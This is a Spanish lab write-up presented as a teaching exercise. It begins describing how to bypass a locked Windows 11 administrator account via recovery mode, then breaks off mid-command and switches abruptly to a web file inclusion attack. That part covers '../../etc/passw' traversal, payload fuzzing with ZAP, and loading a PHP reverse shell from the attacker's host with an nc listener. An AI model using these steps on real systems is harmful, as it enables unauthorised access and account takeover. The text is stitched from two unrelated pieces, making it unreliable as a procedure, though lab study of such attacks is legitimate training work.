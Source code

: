 ```yaml
---
title: WIN - File Inclusion
published: true
categories: [Windows]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Dificil]
---
```



¡Hola! 
Vamos a resolver una máquina windows 11 bloqueada sin acceso a la contraseña del usuario administrador.
Para esta ocasión usaremos la utilidad de windows de `Accesibilidad` para convertirla en la CMD y poder ejecutar los comandos necesarios para crearnos un usuario con privilegios de administrador y poder cambiar la contraseña de nuestro usuario olvidado.


* * *

# PRIMEROS PASOS
En primer lugar deberemos de encender nuestro equipo en modo seguro. Para ello encenderemos nuestro ordenador hasta llegar a la pantalla de Inicio.
<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246354879533207/etc_pass.png?width=1090&height=589">

Para iniciar nuestro windows 11 en modo seguro deberemos de presionar la `tecla SHIFT` y seguido sin soltarla presionaremos en el icono de inicio y reiniciaremos el ordenador. Cuando se esté reiniciando podremos soltar la `tecla SHIFT`. Nos debería aparecer esta pantalla al reiniciarse el ordenador: 
<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246354879533207/etc_pass.png?width=1090&height=589">

Seguido de ello tenemos que clickar en `elegir una opción` - `solucionar un problema` - `opciones avanzadas` - `símbolo del sistema`.

![Texto alternativo](URL_del_GIF)

Una vez en la terminal de nuestro sistema operativo necesitaremos hacer los siguientes pasos...

* * * 

# DENTRO DE LA TERMINAL
En primer lugar deberemos de hallar en que partición se encuentra nuestro windows instalado. Para ello ejecutaremos los siguientes comandos.

```bash 
system32> diskpart
```



Cuando seleccionamos un lenguaje, podemos ver que la URL de nuestra aplicación web cambia. 
Esto sería un vacío donde podriamos realizar nuestras técnicas de intrusión.

Observamos que dentro del link añade una particularidad, `?language=lang_en.php` donde podemos comenzar a intentar escalar privilegios usando `../../etc/passw` para subir entre carpetas dentro del servidor web y podriamos ver si nos devuelve el fichero sensible.

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246354879533207/etc_pass.png?width=1090&height=589">

Si analizamos el código fuente de la aplicación web, podemos ver que nos ha devuelto el fichero completo con sus directorios y nombres de usuario

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246460185907280/codigo_fuente.png?width=966&height=589">

Esta información podemos usarla para aplicarle ténicas de `fuzzing` con `OWAS-ZAP`. Eso lo veremos en el siguiente paso.

* * *

# USO DE LA APLICACIÓN
La aplicación que vamos a usar es `OWAS-ZAP` con técnicas de `fuzzing` cargando diccionarios, en este caso usaremos el diccionario del repositorio `AllPayloadThings` usando el fichero de `File Inclusion`

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246521154318436/usopayload.png?width=926&height=589">

Una vez configurado el fichero que vamos a usar, lanzamos el fuzzer y analizaremos los datos hallados.
Podemos observar en el `Fuzzed 7` un fichero `etc/apache2/` lo que podría hacernos ver una apertura de seguridad muy seria.

En nuestra máquina kali linux tenemos el repositorio de `webshells` con la cual podemos hacer una `shell` remota hacia nuestra máquina aprovechando la vulnerabilidad del servidor apache.

```bash
cd /usr/share/webshells/php
```

Usaremos el repositorio `php` ya que sabemos que el motor de la aplicacion web está en el lenguaje `php`.
Dentro del directorio podremos encontrar diferentes tipos de webshell a usar. Nosotros cargaremos una `reverseshell`.
En este caso tendremos que revisar el source code del fichero para configurar la dirección IP y puerto que usaremos.

```bash
nano php-reverse-shell.php
```
Una vez configurado nuestro archivo, tenemos que copiar en el directorio `/var/www/html`.

```bash
cp php-reverse-shell.php /var/www/html
```
Una vez configurado nuestro fichero a usar, podremos proceder a colocar nuestro enlace, previamente iniciando un servicio de apache2 y poniendo nuestra máquina a la escucha y cargaremos nuestra webshell desde el mismo link de la aplicación web.

```bash
service apache2 start
```

```bash
nc -lvnp 44044
```

Probaremos con cargar dentro del URL de la aplicación web nuestra `webshell` 

`http://nuestraIPdelamáquina/php-reverse-shell.php`

Y cuando vayamos hacia nuestra `shell` podremos observar que hemos conectado una remote shell hacia nuestra máquina y estamos dentro de la máquina `beebox`.

```bash
whoami
```
Podemos observar que estamos en el directorio /home/root/ de `beebox`



* * *

*__Esto es un ejercicio con fines didácticos realizado para MasterD.__*
